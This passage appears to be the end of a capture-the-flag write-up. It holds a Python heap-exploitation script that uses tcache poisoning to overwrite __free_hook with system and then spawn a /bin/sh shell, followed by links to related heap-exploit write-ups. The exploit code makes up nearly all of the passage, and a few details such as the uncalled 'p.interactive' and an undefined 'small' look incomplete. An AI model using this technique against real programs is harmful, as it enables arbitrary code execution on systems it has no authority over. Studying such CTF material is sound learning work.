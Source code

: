 ```python
# tcache count check. this can be handled by allocating several tcachebins of the same size and then putting them all in the respective tcache bins, so when you poison the tcache bins, you will have enough
# for tcache counts to not worry about it becoming -1 and thus not giving the target region back. then overwrite free hook with system and pop a shell with a string since you control the rdi value for free.

alloc(0x20, 'temp')
alloc(0x20, 'ZZZZ')
alloc(0x60, 'Y'*0x20) # 6
alloc(0x60, 'Y'*0x20) # so tcache count doesnt drop, bypass that check
alloc(0x60, 'Y'*0x20)
free(6)
free(7)
free(8)
alloc(small, 'A'*(0x60+0x70+0x10) + p64(libc.symbols['__free_hook'])) # overlapped chunks
alloc(0x60, '')
# above was a tcache poison, now overwrite malloc hook
alloc(0x60, p64(libc.symbols['system'])) # 8, because it frees the desc first, we cant have it do that
alloc(0x300, '', game='/bin/sh\x00') # 9
free(9)
# now we have an interactive shell
p.interactive
```

# References
<a name="[0]">[0]</a> [Twirp documentation](https://twitchtv.github.io/twirp/docs/intro.html)

<a name="[1]">[1]</a> [Write-ups which are useful for the box](https://faraz.faith/2019-10-12-picoctf-2019-heap-challs/)

<a name="[2]">[2]</a> [Another source of useful write-ups](https://www.nullbyte.cat/post/babyheap-def-con-ctf-qualifier-2019/)

<a name="[3]">[3]</a> [RCE via tcache poisoning](https://www.youtube.com/watch?v=43ewpRBIRgA)
